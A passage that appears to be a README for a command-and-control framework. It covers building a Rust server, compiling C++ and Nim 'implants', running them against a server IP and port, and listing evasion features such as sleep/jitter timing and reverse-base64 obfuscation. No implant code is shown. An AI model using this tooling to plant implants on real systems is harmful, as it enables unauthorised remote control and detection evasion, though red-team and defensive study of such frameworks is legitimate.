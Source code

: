 ```bash
cd server/
cargo build --release
cargo run
```

The server will start on `http://127.0.0.1:8080` by default.

### 2. Build Implants

#### C++ Enterprise Implant
```bash
cd implant/
make -f Makefile.enterprise release
# Output: bin/enterprise_implant
```

#### Nim Cross-Platform Implant
```bash
cd nimplant/
nim c --opt:speed --define:release main.nim
# Output: main (or main.exe on Windows)
```

### 3. Deploy and Connect

```bash
# Run C++ implant
./bin/enterprise_implant <server_ip> <port>

# Run Nim implant
./main -h <server_ip> -p <port>
```

## 🔧 Configuration

### Server Configuration
- **Database**: SQLite (configurable path)
- **Authentication**: JWT with configurable expiration
- **Crypto**: AES-256-GCM with enterprise features
- **Logging**: Structured logging with multiple levels

### Implant Configuration
- **Sleep/Jitter**: Configurable timing for evasion
- **User Agents**: Customizable HTTP headers
- **Encryption**: Enterprise-grade with key rotation
- **Modules**: Pluggable command modules

## 🛠️ Features

### Enterprise Security
- **AES-256-GCM Encryption** with automatic key rotation
- **Advanced Obfuscation** including case-alternating reverse base64
- **Security Monitoring** with real-time alerting
- **Compliance Reporting** for enterprise standards
